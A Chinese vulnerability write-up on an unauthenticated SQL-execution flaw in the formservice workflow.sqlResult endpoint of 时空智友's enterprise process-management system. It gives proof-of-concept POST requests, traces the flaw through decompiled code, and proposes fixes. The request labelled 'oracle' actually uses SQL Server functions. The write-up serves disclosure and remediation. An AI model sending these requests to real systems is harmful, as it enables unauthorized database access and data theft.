# 漏洞复现

```
oracle：

POST /formservice?service=workflow.sqlResult HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 91
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip

{"params": {"a": "11"}, "sql": "select sys.fn_sqlvarbasetostr(HASHBYTES('MD5','1234f56'))"}
```

```
mysql

POST /formservice?service=workflow.sqlResult HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 91
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip

{"params": {"a": "11"}, "sql": "SELECT HEX(MD5('1234f56'));"}
```



# FormService解析流程

在时空智友企业流程化管控系统中，提供了一个名为formservice的servlet，这个接口可以通过反射来调用相应service的对应方法，例如`service=attachment.write`，这样就可以调用attachment这个service对应类的write方法

在plugins.xml下缓存了所有service对应的class



在初始化FormService的时候从plugins.xml的form-service中获取service来初始化pluginsMap






在service方法中，通过service参数来获取对应的class并进行实例化





在`getService`中会把service对应的class的Method添加到a这个HashMap中（key为service对应的class，value是里面所有Method），然后遍历这所有的Method，找到对应请求的Method后跳出循环，然后有通过参数类型判断得到一个int类型，最后添加到b这个HashMap中



当第二次调用getService中，会从b中get处对应的key，找到后直接返回对应的Object

# 漏洞分析

在workflow这个service的sqlResult方法中发现了一处SQL注入漏洞


在service中接受一个service参数，对相应参数进行赋值，这里因为是反编译的代码，其实赋值那几个调试显示的值不太一样，但是知道是什么值就行，var8是com.artery.workflow.ServiceImpl这个实例化类，var9是3，因为sqlResult第三个参数是JSONObject接口，var10是worlflow，var11是sqlResult，var12是com.artery.workflow.ServiceImpl这个类实现的所有接口



中间是一部分判断，主要是判断接口，请求方法是否是GET，如果是POST再判断有没有content参数传入，是不是文件上传的请求，如果都不是，再判断var49（在service开头传入的参数inflate，这里判断为空），就直接读取POST的原始数据


接下来通过var9这个int参数判断处理数据，这里将POST数据用JSONObject处理


然后通过反射调用对应Service对应class的Method，传入包装好的Object数组，里面是request，response对象，JSON处理后的POST数据



调用到`ServiceImpl`到`sqlResult`方法



获取`sql`参数，还有`params`这个`json`，然后对`json`转成`Map`，最后传入`getFieldValue`



创建Database对象，调用`getFieldValue`



通过Database类的executeQuery执行sql



调用PreparedStatement的executeQuery直接执行SQL语句，因为是传入的整条语句，可以不考虑预编译情况



最后将执行结果返回，在service方法中，如果调用的sqlResult执行结果不为空，则通过response对象打印到页面





# 漏洞修复

1. 对于formservice这种灵活地调用其他类的方法的接口添加鉴权。
2. 在sqlResult方法中，考虑弃用直接执行整条传入的sql语句的方式，建议使用拼接过滤，预编译的形式。
3. 联系厂商，在漏洞修复后第一时间进行升级。